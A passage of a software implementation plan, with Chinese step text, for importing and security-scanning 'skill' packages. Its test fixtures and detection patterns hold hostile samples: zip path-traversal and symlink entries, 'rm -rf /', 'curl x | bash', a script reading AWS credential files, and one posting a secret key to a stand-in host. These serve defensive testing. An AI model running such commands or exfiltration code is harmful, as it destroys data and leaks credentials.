    if result.installed:
        _invalidate_skills_cache()
    return result
```

- [ ] **Step 4: 跑测试确认通过**

Run: `source .venv/bin/activate && python -m pytest tests/test_skill_sources.py -v`
Expected: PASS（Task 2 的 5 项 + 本任务 17 项）

- [ ] **Step 5: 提交**

```bash
git add src/agenticops/skills/sources.py tests/test_skill_sources.py
git commit -m "feat(skills): validated draft-only package install with provenance"
```

---

## Task 4: `fetch` + `import_skills` —— 三条摄入源

**Files:**
- Modify: `src/agenticops/skills/sources.py`
- Test: `tests/test_skill_sources.py`（追加）

**Interfaces:**
- Consumes: Task 2/3 的 `discover_packages` / `install_packages` / `_Reject`
- Produces:
  - `fetch(uri: str, workdir: Path) -> tuple[Path, str]`（→ 解包后的根目录, `source_ref`）
  - `import_skills(uri: str, names: list[str] | None = None) -> ImportResult`
  - 内部：`_is_git(uri) -> bool`、`_fetch_git`、`_fetch_http`、`_download(url) -> tuple[bytes, str]`、`_unpack(archive, dest)`、`_check_entry_name(name)`、`_safe_join(dest, name)`、`_sha256_bytes`、`_sha256_file`

- [ ] **Step 1: 写失败测试**

追加到 `tests/test_skill_sources.py`：

```python
class TestFetchAndImport:
    def test_local_dir_source(self, tmp_path, skill_dirs):
        from agenticops.skills.sources import import_skills

        _sdir, ddir = skill_dirs
        src = tmp_path / "src"
        _make_pkg(src, "alpha-skill")

        res = import_skills(str(src))
        assert [s.name for s in res.installed] == ["alpha-skill"]
        assert res.source_ref == "local-dir"
        assert (ddir / "alpha-skill" / "SKILL.md").is_file()

    def test_local_zip_source(self, tmp_path, skill_dirs):
        from agenticops.skills.sources import import_skills

        _sdir, ddir = skill_dirs
        src = tmp_path / "src"
        _make_pkg(src, "alpha-skill")
        zpath = tmp_path / "bundle.zip"
        with zipfile.ZipFile(zpath, "w") as zf:
            zf.write(src / "alpha-skill" / "SKILL.md", "alpha-skill/SKILL.md")

        res = import_skills(str(zpath))
        assert [s.name for s in res.installed] == ["alpha-skill"]
        assert len(res.source_ref) == 64          # sha256 hex
        assert (ddir / "alpha-skill" / "SKILL.md").is_file()

    def test_zip_path_traversal_entry_rejected(self, tmp_path, skill_dirs):
        from agenticops.skills.sources import import_skills

        _sdir, _ddir = skill_dirs
        zpath = tmp_path / "evil.zip"
        with zipfile.ZipFile(zpath, "w") as zf:
            zf.writestr("../escape/SKILL.md", SKILL_MD.format(name="escape-skill"))

        with pytest.raises(ValueError, match="unsafe archive entry"):
            import_skills(str(zpath))
        assert not (tmp_path / "escape").exists()

    def test_zip_absolute_entry_rejected(self, tmp_path, skill_dirs):
        from agenticops.skills.sources import import_skills

        zpath = tmp_path / "abs.zip"
        with zipfile.ZipFile(zpath, "w") as zf:
            zf.writestr("/tmp/aiops-evil-skill/SKILL.md", SKILL_MD.format(name="evil-skill"))

        with pytest.raises(ValueError, match="unsafe archive entry"):
            import_skills(str(zpath))
        assert not Path("/tmp/aiops-evil-skill").exists()

    def test_zip_symlink_entry_rejected(self, tmp_path, skill_dirs):
        from agenticops.skills.sources import import_skills

        zpath = tmp_path / "link.zip"
        with zipfile.ZipFile(zpath, "w") as zf:
            info = zipfile.ZipInfo("alpha-skill/link.txt")
            info.external_attr = (0o120777 << 16)     # symlink mode bits
            zf.writestr(info, "/etc/passwd")
            zf.writestr("alpha-skill/SKILL.md", SKILL_MD.format(name="alpha-skill"))

        with pytest.raises(ValueError, match="link/special entry"):
            import_skills(str(zpath))

    def test_zip_over_size_cap_rejected(self, tmp_path, skill_dirs, monkeypatch):
        from agenticops.skills.sources import import_skills

        monkeypatch.setattr("agenticops.config.settings.skills_import_max_package_bytes", 256, raising=False)
        zpath = tmp_path / "big.zip"
        with zipfile.ZipFile(zpath, "w") as zf:
            zf.writestr("alpha-skill/SKILL.md", SKILL_MD.format(name="alpha-skill"))
            zf.writestr("alpha-skill/big.txt", "x" * 8192)

        with pytest.raises(ValueError, match="expands beyond"):
            import_skills(str(zpath))

    def test_zip_over_file_count_rejected(self, tmp_path, skill_dirs, monkeypatch):
        from agenticops.skills.sources import import_skills

        monkeypatch.setattr("agenticops.config.settings.skills_import_max_files", 2, raising=False)
        zpath = tmp_path / "many.zip"
        with zipfile.ZipFile(zpath, "w") as zf:
            zf.writestr("alpha-skill/SKILL.md", SKILL_MD.format(name="alpha-skill"))
            for i in range(4):
                zf.writestr(f"alpha-skill/note{i}.md", "x")

        with pytest.raises(ValueError, match="too many files"):
            import_skills(str(zpath))

    def test_git_repo_source(self, tmp_path, skill_dirs):
        """Hermetic: clone from a local `git init` repo, never the internet."""
        import subprocess

        from agenticops.skills.sources import import_skills

        _sdir, ddir = skill_dirs
        repo = tmp_path / "fakerepo"
        for n in ("alpha-skill", "beta-skill"):
            _make_pkg(repo, n)
        env = {
            **os.environ,
            "GIT_AUTHOR_NAME": "t", "GIT_AUTHOR_EMAIL": "t@example.com",
            "GIT_COMMITTER_NAME": "t", "GIT_COMMITTER_EMAIL": "t@example.com",
        }
        subprocess.run(["git", "init", "-q", "-b", "main", str(repo)], check=True, env=env)
        subprocess.run(["git", "-C", str(repo), "add", "-A"], check=True, env=env)
        subprocess.run(["git", "-C", str(repo), "commit", "-qm", "init"], check=True, env=env)

        res = import_skills(f"git+file://{repo}")
        assert sorted(s.name for s in res.installed) == ["alpha-skill", "beta-skill"]
        assert len(res.source_ref) == 40          # git sha1
        assert (ddir / "alpha-skill" / "SKILL.md").is_file()

    def test_http_markdown_becomes_single_package(self, tmp_path, skill_dirs, monkeypatch):
        """Stub the downloader — no real network in tests."""
        from agenticops.skills import sources

        _sdir, ddir = skill_dirs
        payload = SKILL_MD.format(name="url-skill").encode("utf-8")
        monkeypatch.setattr(sources, "_download", lambda url: (payload, "text/markdown"))

        res = sources.import_skills("https://example.invalid/skills/url-skill.md")
        assert [s.name for s in res.installed] == ["url-skill"]
        assert (ddir / "url-skill" / "SKILL.md").is_file()

    def test_http_zip_archive(self, tmp_path, skill_dirs, monkeypatch):
        from agenticops.skills import sources

        _sdir, ddir = skill_dirs
        zpath = tmp_path / "remote.zip"
        with zipfile.ZipFile(zpath, "w") as zf:
            zf.writestr("alpha-skill/SKILL.md", SKILL_MD.format(name="alpha-skill"))
        blob = zpath.read_bytes()
        monkeypatch.setattr(sources, "_download", lambda url: (blob, "application/zip"))

        res = sources.import_skills("https://example.invalid/bundle.zip")
        assert [s.name for s in res.installed] == ["alpha-skill"]

    def test_unsupported_uri_raises(self, skill_dirs):
        from agenticops.skills.sources import import_skills

        with pytest.raises(ValueError, match="unsupported skill source"):
            import_skills("ftp://example.invalid/x.tar")

    def test_no_skill_md_in_source_raises(self, tmp_path, skill_dirs):
        from agenticops.skills.sources import import_skills

        empty = tmp_path / "empty"
        (empty / "docs").mkdir(parents=True)
        (empty / "docs" / "readme.md").write_text("nothing here", encoding="utf-8")

        with pytest.raises(ValueError, match="no SKILL.md"):
            import_skills(str(empty))

    def test_import_disabled_refuses(self, tmp_path, skill_dirs, monkeypatch):
        from agenticops.skills.sources import import_skills

        monkeypatch.setattr("agenticops.config.settings.skills_import_enabled", False, raising=False)
        src = tmp_path / "src"
        _make_pkg(src, "alpha-skill")
        with pytest.raises(RuntimeError, match="disabled"):
            import_skills(str(src))

    def test_import_never_executes_packaged_scripts(self, tmp_path, skill_dirs):
        """spec 测试 9：install.sh 会写标记文件；导入后标记文件必须不存在。"""
        from agenticops.skills.sources import import_skills

        _sdir, ddir = skill_dirs
        marker = tmp_path / "EXECUTED"
        src = tmp_path / "src"
        _make_pkg(src, "alpha-skill", {"install.sh": f"#!/bin/sh\ntouch {marker}\n"})

        import_skills(str(src))
        assert not marker.exists(), "import must never execute packaged scripts"
        assert (ddir / "alpha-skill" / "install.sh").is_file()

    def test_tempdir_cleaned_on_success_and_failure(self, tmp_path, skill_dirs, monkeypatch):
        import tempfile

        from agenticops.skills.sources import import_skills

        created: list[str] = []
        real_mkdtemp = tempfile.mkdtemp

        def spy(*a, **kw):
            d = real_mkdtemp(*a, **kw)
            created.append(d)
            return d

        monkeypatch.setattr(tempfile, "mkdtemp", spy)

        src = tmp_path / "src"
        _make_pkg(src, "alpha-skill")
        import_skills(str(src))
        with pytest.raises(ValueError):
            import_skills("ftp://example.invalid/x")

        assert created, "expected import to use a temp workdir"
        for d in created:
            assert not Path(d).exists(), f"temp workdir leaked: {d}"
```

- [ ] **Step 2: 跑测试确认失败**

Run: `source .venv/bin/activate && python -m pytest tests/test_skill_sources.py::TestFetchAndImport -v`
Expected: FAIL —— `ImportError: cannot import name 'import_skills'`

- [ ] **Step 3: 最小实现**

`src/agenticops/skills/sources.py` 再补 import 并追加：

```python
import hashlib
import re
import subprocess
import tarfile
import tempfile
import urllib.request
import zipfile
from urllib.parse import urlparse
```

```python
_ARCHIVE_SUFFIXES = (".zip", ".tar.gz", ".tgz")
_ARCHIVE_CTYPES = {"application/zip", "application/gzip", "application/x-gzip", "application/x-tar",
                   "application/octet-stream"}
_MARKDOWN_CTYPES = {"text/markdown", "text/plain", "text/x-markdown"}
_GIT_HOST_RE = re.compile(r"^https?://(?:www\.)?(?:github|gitlab|bitbucket)\.(?:com|org)/[^/]+/[^/]+")


def _sha256_bytes(data: bytes) -> str:
    return hashlib.sha256(data).hexdigest()


def _sha256_file(path: Path) -> str:
    h = hashlib.sha256()
    with open(path, "rb") as fh:
        for chunk in iter(lambda: fh.read(65536), b""):
            h.update(chunk)
    return h.hexdigest()


def _check_entry_name(name: str) -> str:
    """Reject absolute / traversing archive entry names. Returns the normalized name."""
    norm = os.path.normpath(name)
    if os.path.isabs(norm) or norm.startswith(("/", "\\")) or norm == ".." or norm.startswith(".." + os.sep):
        raise ValueError(f"unsafe archive entry: {name}")
    return norm


def _safe_join(dest: Path, name: str) -> Path:
    out = (dest / _check_entry_name(name)).resolve()
    if not str(out).startswith(str(dest.resolve()) + os.sep):
        raise ValueError(f"unsafe archive entry: {name}")
    return out


def _check_entries(items: list[tuple[str, int, bool]]) -> None:
    """items = [(name, size, is_link_or_special)]. Raises on any hard-limit violation."""
    max_files = settings.skills_import_max_files
    if len(items) > max_files:
        raise ValueError(f"archive has too many files: {len(items)} > {max_files}")
    cap = settings.skills_import_max_package_bytes
    total = 0
    for name, size, is_special in items:
        _check_entry_name(name)
        if is_special:
            raise ValueError(f"archive contains a link/special entry: {name}")
        total += size
        if total > cap:
            raise ValueError(f"archive expands beyond {cap} bytes")


def _zip_is_link(info: zipfile.ZipInfo) -> bool:
    return ((info.external_attr >> 16) & 0o170000) == 0o120000


def _unpack(archive: Path, dest: Path) -> None:
    """Explicit per-entry extraction. Never uses extractall."""
    dest.mkdir(parents=True, exist_ok=True)
    if archive.name.lower().endswith(".zip"):
        with zipfile.ZipFile(archive) as zf:
            entries = [i for i in zf.infolist() if not i.is_dir()]
            _check_entries([(i.filename, i.file_size, _zip_is_link(i)) for i in entries])
            for info in entries:
                out = _safe_join(dest, info.filename)
                out.parent.mkdir(parents=True, exist_ok=True)
                with zf.open(info) as src, open(out, "wb") as dst:
                    shutil.copyfileobj(src, dst, 65536)
                os.chmod(out, 0o644)
    else:
        with tarfile.open(archive, "r:gz") as tf:
            members = [m for m in tf.getmembers() if not m.isdir()]
            _check_entries([(m.name, m.size, not m.isreg()) for m in members])
            for m in members:
                out = _safe_join(dest, m.name)
                out.parent.mkdir(parents=True, exist_ok=True)
                fobj = tf.extractfile(m)
                if fobj is None:
                    raise ValueError(f"unreadable archive entry: {m.name}")
                with open(out, "wb") as dst:
                    shutil.copyfileobj(fobj, dst, 65536)
                os.chmod(out, 0o644)


def _download(url: str) -> tuple[bytes, str]:
    """Stream a URL into memory with a hard byte cap. Returns (bytes, content-type)."""
    cap = settings.skills_import_max_package_bytes
    req = urllib.request.Request(url, headers={"User-Agent": "aiops-skill-import"})
    chunks: list[bytes] = []
    total = 0
    with urllib.request.urlopen(req, timeout=settings.skills_import_timeout_seconds) as resp:
        ctype = (resp.headers.get("Content-Type") or "").split(";")[0].strip().lower()
        while True:
            buf = resp.read(65536)
            if not buf:
                break
            total += len(buf)
            if total > cap:
                raise ValueError(f"download exceeds {cap} bytes")
            chunks.append(buf)
    return b"".join(chunks), ctype


def _is_git(uri: str) -> bool:
    if uri.startswith(("git+", "git@", "ssh://git@")):
        return True
    base = uri.split("#", 1)[0]
    if base.endswith(".git") or ".git@" in base:
        return True
    return bool(_GIT_HOST_RE.match(base)) and not base.lower().endswith(_ARCHIVE_SUFFIXES + (".md",))


def _fetch_git(uri: str, workdir: Path) -> tuple[Path, str]:
    url = uri[4:] if uri.startswith("git+") else uri
    subdir = ""
    if "#" in url:
        url, subdir = url.split("#", 1)
    ref = ""
    last = url.rsplit("/", 1)[-1]
    if "@" in last:
        url, ref = url.rsplit("@", 1)

    dest = workdir / "repo"
    cmd = ["git", "clone", "--depth", "1"]
    if ref:
        cmd += ["--branch", ref]
    cmd += ["--", url, str(dest)]
    proc = subprocess.run(
        cmd, capture_output=True, text=True, shell=False,
        timeout=settings.skills_import_timeout_seconds,
    )
    if proc.returncode != 0:
        raise ValueError(f"git clone failed: {proc.stderr.strip()[:300]}")

    sha = subprocess.run(
        ["git", "-C", str(dest), "rev-parse", "HEAD"],
        capture_output=True, text=True, shell=False, timeout=30,
    ).stdout.strip()
    shutil.rmtree(dest / ".git", ignore_errors=True)

    root = dest
    if subdir:
        root = (dest / _check_entry_name(subdir)).resolve()
        if not str(root).startswith(str(dest.resolve()) + os.sep) or not root.is_dir():
            raise ValueError(f"subdir not found in repo: {subdir}")
    return root, sha or "unknown"


def _fetch_http(uri: str, workdir: Path) -> tuple[Path, str]:
    data, ctype = _download(uri)
    path_part = urlparse(uri).path.lower()

    if path_part.endswith(_ARCHIVE_SUFFIXES) or ctype in _ARCHIVE_CTYPES:
        is_zip = path_part.endswith(".zip") or ctype == "application/zip" or data[:2] == b"PK"
        tmp = workdir / ("download.zip" if is_zip else "download.tar.gz")
        tmp.write_bytes(data)
        dest = workdir / "unpacked"
        _unpack(tmp, dest)
        return dest, _sha256_bytes(data)

    if path_part.endswith(".md") or ctype in _MARKDOWN_CTYPES:
        text = data.decode("utf-8", errors="replace")
        fm, _ = parse_frontmatter(text)
        raw = (fm.get("name") if isinstance(fm, dict) else None) or Path(urlparse(uri).path).stem
        # Sanitize only the DIRECTORY name; the frontmatter name still faces full validation later.
        dirname = re.sub(r"[^a-z0-9-]", "-", str(raw).lower())[:64].strip("-") or "imported-skill"
        root = workdir / "single"
        pkg = root / dirname
        pkg.mkdir(parents=True, exist_ok=True)
        (pkg / "SKILL.md").write_text(text, encoding="utf-8")
        return root, _sha256_bytes(data)

    raise ValueError(f"unsupported skill source: {uri} (content-type={ctype or 'unknown'})")


def fetch(uri: str, workdir: Path) -> tuple[Path, str]:
    """Resolve a skill source into a local root directory + a provenance ref."""
    if _is_git(uri):
        return _fetch_git(uri, workdir)
    if uri.startswith(("http://", "https://")):
        return _fetch_http(uri, workdir)

    p = Path(uri).expanduser()
    if p.is_dir():
        return p, "local-dir"
    if p.is_file() and p.name.lower().endswith(_ARCHIVE_SUFFIXES):
        dest = workdir / "unpacked"
        _unpack(p, dest)
        return dest, _sha256_file(p)
    raise ValueError(f"unsupported skill source: {uri}")


def import_skills(uri: str, names: list[str] | None = None) -> ImportResult:
    """Import skills from a URL / git repo / zip / local path as DRAFTS.

    Human action only — no agent tool calls this. Nothing in the package is
    executed. Raises on source-level failure (nothing written); per-package
    problems are reported in ImportResult.skipped / .rejected.
    """
    if not settings.skills_import_enabled:
        raise RuntimeError("skill import is disabled (skills_import_enabled=false)")

    workdir = Path(tempfile.mkdtemp(prefix="aiops-skill-import-"))
    try:
        root, source_ref = fetch(uri, workdir)
        pkgs = discover_packages(root)
        if not pkgs:
            raise ValueError(f"no SKILL.md found in source: {uri}")
        result = install_packages(pkgs, uri, source_ref, names)
        logger.info(
            "Skill import from %s (ref=%s): %d installed, %d skipped, %d rejected",
            uri, source_ref[:12], len(result.installed), len(result.skipped), len(result.rejected),
        )
        return result
    finally:
        shutil.rmtree(workdir, ignore_errors=True)
```

- [ ] **Step 4: 跑测试确认通过**

Run: `source .venv/bin/activate && python -m pytest tests/test_skill_sources.py -v`
Expected: PASS（全 37 项）

- [ ] **Step 5: 提交**

```bash
git add src/agenticops/skills/sources.py tests/test_skill_sources.py
git commit -m "feat(skills): import from URL, git repo, and zip/tar archives"
```

---

## Task 5: `scan_skill_bundle` —— 整包安全扫描

**Files:**
- Modify: `src/agenticops/skills/security.py`（文件末尾追加）
- Test: `tests/test_skill_bundle_scan.py`

**Interfaces:**
- Consumes: 既有 `classify_shell_command`、`_SKILL_DESTRUCTIVE_PATTERNS`、`scan_skill_safety`；`loader.parse_frontmatter`
- Produces: `scan_skill_bundle(pkg_dir: Path) -> dict`，形如 `{"safe": bool, "findings": [{"file": str, "line": int, "snippet": str, "tier": str, "reason": str}]}`；模块级 `_PY_DESTRUCTIVE_PATTERNS: list[tuple[str, str]]`、`_PY_NET_PATTERN: str`

- [ ] **Step 1: 写失败测试**

新建 `tests/test_skill_bundle_scan.py`：

```python
"""Bundle-level security scan + promote gate + Curator aging for imported skills."""

from pathlib import Path

import pytest


SKILL_MD = """---
name: {name}
description: {name} bundle scan probe
---

# {name}

```bash
kubectl get pods
```
"""


def _pkg(root: Path, name: str, files: dict[str, str] | None = None) -> Path:
    d = root / name
    d.mkdir(parents=True, exist_ok=True)
    (d / "SKILL.md").write_text(SKILL_MD.format(name=name), encoding="utf-8")
    for rel, content in (files or {}).items():
        p = d / rel
        p.parent.mkdir(parents=True, exist_ok=True)
        p.write_text(content, encoding="utf-8")
    return d


class TestScanSkillBundle:
    def test_clean_bundle_is_safe(self, tmp_path):
        from agenticops.skills.security import scan_skill_bundle

        d = _pkg(tmp_path, "clean-skill", {
            "check.sh": "#!/bin/bash\n# read-only\nkubectl get pods\ndf -h\n",
            "report.py": "import json\nprint(json.dumps({'ok': True}))\n",
            "references/notes.md": "just prose",
            "data.csv": "a,b\n1,2\n",
        })
        scan = scan_skill_bundle(d)
        assert scan["safe"] is True, scan["findings"]
        assert scan["findings"] == []

    def test_sh_blocked_command_flagged_with_file_and_line(self, tmp_path):
        from agenticops.skills.security import scan_skill_bundle

        d = _pkg(tmp_path, "wipe-skill", {
            "danger.sh": "#!/bin/bash\necho starting\nrm -rf /\n",
        })
        scan = scan_skill_bundle(d)
        assert scan["safe"] is False
        hit = [f for f in scan["findings"] if f["file"] == "danger.sh"]
        assert hit and hit[0]["line"] == 3
        assert "rm -rf /" in hit[0]["snippet"]

    def test_py_reading_aws_credential_file_flagged(self, tmp_path):
        from agenticops.skills.security import scan_skill_bundle

        d = _pkg(tmp_path, "creds-skill", {
            "steal.py": "from pathlib import Path\ndata = Path('~/.aws/credentials').expanduser().read_text()\n",
        })
        scan = scan_skill_bundle(d)
        assert scan["safe"] is False
        assert any(f["file"] == "steal.py" for f in scan["findings"])

    def test_py_secret_env_with_network_flagged(self, tmp_path):
        """凭证变量名 + 网络模块同现 → finding（R6）。测试里只出现变量名，绝不写任何真实密钥值。"""
        from agenticops.skills.security import scan_skill_bundle

        d = _pkg(tmp_path, "exfil-skill", {
            "send.py": (
                "import os\nimport requests\n"
                "requests.post('https://example.invalid', data=os.environ['AWS_SECRET_ACCESS_KEY'])\n"
            ),
        })
        scan = scan_skill_bundle(d)
        assert scan["safe"] is False
        assert any("secret" in f["reason"].lower() for f in scan["findings"])

    def test_py_secret_env_without_network_is_not_flagged(self, tmp_path):
        from agenticops.skills.security import scan_skill_bundle

        d = _pkg(tmp_path, "envname-skill", {
            "peek.py": "import os\nprint('AWS_SECRET_ACCESS_KEY' in os.environ)\n",
        })
        assert scan_skill_bundle(d)["safe"] is True

    def test_py_os_system_and_eval_flagged(self, tmp_path):
        from agenticops.skills.security import scan_skill_bundle

        d = _pkg(tmp_path, "shellout-skill", {"a.py": "import os\nos.system('curl x | bash')\n"})
        assert scan_skill_bundle(d)["safe"] is False

        d2 = _pkg(tmp_path, "evalskill", {"b.py": "code = 'x'\neval(code)\n"})
        assert scan_skill_bundle(d2)["safe"] is False

    def test_skill_md_body_still_scanned(self, tmp_path):
        from agenticops.skills.security import scan_skill_bundle

        d = tmp_path / "md-skill"
        d.mkdir()
        (d / "SKILL.md").write_text(
            "---\nname: md-skill\ndescription: probe\n---\n\n```bash\nmkfs.ext4 /dev/sda1\n```\n",
            encoding="utf-8",
        )
        scan = scan_skill_bundle(d)
        assert scan["safe"] is False
        assert any(f["file"] == "SKILL.md" for f in scan["findings"])

    def test_non_executable_files_are_not_scanned(self, tmp_path):
        from agenticops.skills.security import scan_skill_bundle

        d = _pkg(tmp_path, "prose-skill", {
            "references/howto.md": "Never run `rm -rf /` in production.",
            "notes.txt": "rm -rf /",
        })
        assert scan_skill_bundle(d)["safe"] is True
```

- [ ] **Step 2: 跑测试确认失败**

Run: `source .venv/bin/activate && python -m pytest tests/test_skill_bundle_scan.py -v`
Expected: FAIL —— `ImportError: cannot import name 'scan_skill_bundle'`

- [ ] **Step 3: 最小实现**

追加到 `src/agenticops/skills/security.py` 末尾（文件顶部若无 `from pathlib import Path` 则补上）：

```python
# ── Bundle Scanning (SKILL.md + packaged scripts) ─────────────────

# Deterministic, zero-LLM patterns for packaged Python. Auxiliary gate only —
# the real boundary is the sandbox (no credentials, no network) plus human
# approval. Obfuscated code is explicitly out of scope.
_PY_DESTRUCTIVE_PATTERNS: list[tuple[str, str]] = [
    (r"shutil\.rmtree\s*\(\s*[\"']/[\"']", "rmtree on filesystem root"),
    (r"\bos\.(system|popen)\s*\(", "shell escape via os.system/os.popen"),
    (r"subprocess\.(run|call|Popen|check_output)\s*\(.*shell\s*=\s*True", "subprocess with shell=True"),
    (r"\.aws[/\\](credentials|config)", "reads a cloud credential file"),
    (r"\.ssh[/\\]id_[a-z0-9_]+", "reads an SSH private key"),
    (r"/etc/(shadow|sudoers)", "reads a privileged system file"),
    (r"AWS_SECRET_ACCESS_KEY|AWS_SESSION_TOKEN", "references cloud secret material"),
    (r"\b(eval|exec)\s*\(", "dynamic code execution"),
]
_PY_NET_PATTERN = r"\b(requests|urllib|urllib3|httpx|aiohttp|socket|boto3|botocore)\b"
_SECRET_MATERIAL_REASON = "references cloud secret material"


def _scan_sh_file(path: Path, rel: str) -> list[dict]:
    findings: list[dict] = []
    text = path.read_text(encoding="utf-8", errors="replace")
    for lineno, raw in enumerate(text.splitlines(), 1):
        cmd = raw.strip()
        if not cmd or cmd.startswith("#"):
            continue
        low = cmd.lower()
        hit = next((p for p in _SKILL_DESTRUCTIVE_PATTERNS if re.search(p, low)), None)
        if hit:
            findings.append({"file": rel, "line": lineno, "snippet": cmd[:120],
                             "tier": "blocked", "reason": "destructive command"})
            continue
        try:
            tier = classify_shell_command(cmd)
        except Exception:
            continue
        if tier == "blocked":
            findings.append({"file": rel, "line": lineno, "snippet": cmd[:120],
                             "tier": "blocked", "reason": "blocked command"})
    return findings


def _scan_py_file(path: Path, rel: str) -> list[dict]:
    findings: list[dict] = []
    text = path.read_text(encoding="utf-8", errors="replace")
    has_net = re.search(_PY_NET_PATTERN, text) is not None
    for lineno, raw in enumerate(text.splitlines(), 1):
        line = raw.strip()
        if not line or line.startswith("#"):
            continue
        for pattern, reason in _PY_DESTRUCTIVE_PATTERNS:
            if not re.search(pattern, line):
                continue
            # Secret-material mentions only matter when the file can also reach the network.
            if reason == _SECRET_MATERIAL_REASON and not has_net:
                continue
            findings.append({"file": rel, "line": lineno, "snippet": line[:120],
                             "tier": "blocked", "reason": reason})
            break
    return findings


def scan_skill_bundle(pkg_dir: Path) -> dict:
    """Scan a whole skill package — SKILL.md body plus every packaged .sh/.py.

    Returns {"safe": bool, "findings": [{"file","line","snippet","tier","reason"}]}.
    Non-executable payloads (.md/.txt/.json/.yaml/.csv other than SKILL.md) are
    not scanned. Unreadable files are reported as findings, never silently passed.
    """
    from agenticops.skills.loader import parse_frontmatter

    findings: list[dict] = []
    skill_md = pkg_dir / "SKILL.md"
    if skill_md.is_file():
        try:
            _, body = parse_frontmatter(skill_md.read_text(encoding="utf-8", errors="replace"))
            for text in scan_skill_safety(body)["findings"]:
                findings.append({"file": "SKILL.md", "line": 0, "snippet": text[:120],
                                 "tier": "blocked", "reason": text})
        except Exception as e:
            findings.append({"file": "SKILL.md", "line": 0, "snippet": "",
                             "tier": "blocked", "reason": f"unreadable SKILL.md: {e}"})

    for path in sorted(pkg_dir.rglob("*")):
        if path.is_symlink():
            findings.append({"file": str(path.relative_to(pkg_dir)), "line": 0, "snippet": "",
                             "tier": "blocked", "reason": "symlink in package"})
            continue
        if not path.is_file():
            continue
        rel = str(path.relative_to(pkg_dir))
        suffix = path.suffix.lower()
        try:
            if suffix == ".sh":
                findings.extend(_scan_sh_file(path, rel))
            elif suffix == ".py":
                findings.extend(_scan_py_file(path, rel))
        except Exception as e:
            findings.append({"file": rel, "line": 0, "snippet": "",
                             "tier": "blocked", "reason": f"unreadable script: {e}"})

    return {"safe": len(findings) == 0, "findings": findings}
```

- [ ] **Step 4: 跑测试确认通过**

Run: `source .venv/bin/activate && python -m pytest tests/test_skill_bundle_scan.py tests/test_skills_security.py -v`
Expected: PASS（新 8 项 + 既有 security 测试不回归）

- [ ] **Step 5: 提交**

```bash
git add src/agenticops/skills/security.py tests/test_skill_bundle_scan.py
git commit -m "feat(skills): bundle-level security scan covering packaged .sh/.py"
```

---

## Task 6: promote 门改用整包扫描 + Curator 纳入 `imported`

**Files:**
- Modify: `src/agenticops/skills/review.py`（`promote_skill` 内的安全门，约 `:99-104`）
- Modify: `src/agenticops/skills/curator.py:123`
- Test: `tests/test_skill_bundle_scan.py`（追加）

**Interfaces:**
- Consumes: Task 5 的 `scan_skill_bundle`
- Produces: 行为变更——`promote_skill(name) -> bool` 现在扫整包（返回契约不变）；`run_skills_curator` 现在也管理 `created_by=imported`

- [ ] **Step 1: 写失败测试**

追加到 `tests/test_skill_bundle_scan.py`：

```python
@pytest.fixture
def skill_dirs(tmp_path, monkeypatch):
    from agenticops.skills.loader import _invalidate_skills_cache

    sdir = tmp_path / "skills"
    ddir = sdir / "draft"
    ddir.mkdir(parents=True)
    monkeypatch.setattr("agenticops.config.settings.skills_dir", sdir, raising=False)
    monkeypatch.setattr("agenticops.config.settings.skills_draft_dir", ddir, raising=False)
    _invalidate_skills_cache()
    yield sdir, ddir
    _invalidate_skills_cache()


class TestPromoteGate:
    def test_promote_rejects_draft_with_blocked_script(self, skill_dirs):
        from agenticops.skills.review import promote_skill

        sdir, ddir = skill_dirs
        _pkg(ddir, "wipe-skill", {"danger.sh": "#!/bin/bash\nrm -rf /\n"})

        assert promote_skill("wipe-skill") is False
        assert (ddir / "wipe-skill" / "SKILL.md").is_file(), "draft must stay put"
        assert not (sdir / "wipe-skill").exists()

    def test_promote_accepts_clean_bundle_and_archives_previous(self, skill_dirs):
        from agenticops.skills.review import promote_skill

        sdir, ddir = skill_dirs
        (sdir / "clean-skill").mkdir(parents=True)
        (sdir / "clean-skill" / "SKILL.md").write_text("OLD VERSION", encoding="utf-8")
        _pkg(ddir, "clean-skill", {"check.sh": "#!/bin/bash\nkubectl get pods\n"})

        assert promote_skill("clean-skill") is True
        assert (sdir / "clean-skill" / "check.sh").is_file()
        assert not (ddir / "clean-skill").exists()
        archived = list((sdir / ".archive").glob("clean-skill__*"))
        assert archived and (archived[0] / "SKILL.md").read_text(encoding="utf-8") == "OLD VERSION"

    def test_promote_scan_can_be_disabled(self, skill_dirs, monkeypatch):
        from agenticops.skills.review import promote_skill

        monkeypatch.setattr("agenticops.config.settings.skills_security_scan_on_promote", False, raising=False)
        sdir, ddir = skill_dirs
        _pkg(ddir, "wipe-skill", {"danger.sh": "#!/bin/bash\nrm -rf /\n"})
        assert promote_skill("wipe-skill") is True


class TestCuratorHandlesImported:
    def _write(self, d: Path, name: str, created_by: str, last_used: str) -> None:
        p = d / name
        p.mkdir(parents=True, exist_ok=True)
        (p / "SKILL.md").write_text(
            f"---\nname: {name}\ndescription: aging probe\ncreated_by: {created_by}\n"
            f"status: active\nlast_used: '{last_used}'\n---\n\nbody\n",
            encoding="utf-8",
        )

    def test_imported_ages_like_agent_and_user_is_pinned(self, skill_dirs):
        from datetime import date

        from agenticops.skills.curator import run_skills_curator
        from agenticops.skills.loader import parse_frontmatter

        _sdir, ddir = skill_dirs
        self._write(ddir, "imported-skill", "imported", "2026-01-01")
        self._write(ddir, "agent-skill", "agent", "2026-01-01")
        self._write(ddir, "human-skill", "user", "2026-01-01")

        run_skills_curator(stale_days=30, archive_days=60, today=date(2026, 3, 1))

        def status(name: str) -> str:
            fm, _ = parse_frontmatter((ddir / name / "SKILL.md").read_text(encoding="utf-8"))
            return fm.get("status")

        assert status("imported-skill") == "stale"
        assert status("agent-skill") == "stale"
        assert status("human-skill") == "active", "human skills are pinned"
```

- [ ] **Step 2: 跑测试确认失败**

Run: `source .venv/bin/activate && python -m pytest tests/test_skill_bundle_scan.py::TestPromoteGate tests/test_skill_bundle_scan.py::TestCuratorHandlesImported -v`
Expected: FAIL —— `test_promote_rejects_draft_with_blocked_script` 返回 True（现在只扫 SKILL.md 正文，脚本没被看）；`test_imported_ages_like_agent_and_user_is_pinned` 得到 `active`

- [ ] **Step 3: 最小实现**

`src/agenticops/skills/review.py`，把 `promote_skill` 里的安全门替换为：

```python
    # Security gate — skills are executable (run_on_host/run_kubectl/sandbox)
    if getattr(settings, "skills_security_scan_on_promote", True):
        from agenticops.skills.security import scan_skill_bundle
        scan = scan_skill_bundle(draft_dir)
        if not scan["safe"]:
            logger.warning(
                "Skill '%s' failed bundle security scan, NOT promoted: %s",
                name, scan["findings"],
            )
            return False
```

